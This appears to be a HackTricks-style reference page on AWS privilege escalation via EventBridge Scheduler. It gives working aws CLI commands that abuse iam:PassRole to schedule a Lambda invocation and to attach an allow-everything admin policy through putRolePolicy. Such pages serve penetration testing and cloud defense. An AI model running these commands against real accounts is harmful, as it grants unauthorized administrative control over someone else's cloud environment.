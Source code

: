 # AWS - EventBridge Scheduler Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EventBridge Scheduler

More info EventBridge Scheduler in:

{{#ref}}
../aws-services/eventbridgescheduler-enum.md
{{#endref}}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

An attacker with those permissions will be able to **`create`|`update` an scheduler and abuse the permissions of the scheduler role** attached to it to perform any action

For example, they could configure the schedule to **invoke a Lambda function** which is a templated action:

```bash
aws scheduler create-schedule \
    --name MyLambdaSchedule \
    --schedule-expression "rate(5 minutes)" \
    --flexible-time-window "Mode=OFF" \
    --target '{
        "Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
        "RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
    }'
```

In addition to templated service actions, you can use **universal targets** in EventBridge Scheduler to invoke a wide range of API operations for many AWS services. Universal targets offer flexibility to invoke almost any API. One example can be using universal targets adding "**AdminAccessPolicy**", using a role that has "**putRolePolicy**" policy:

```bash
aws scheduler create-schedule \
    --name GrantAdminToTargetRoleSchedule \
    --schedule-expression "rate(5 minutes)" \
    --flexible-time-window "Mode=OFF" \
    --target '{
        "Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
        "RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
        "Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
    }'
```

## References

- [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
- [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{{#include ../../../banners/hacktricks-training.md}}






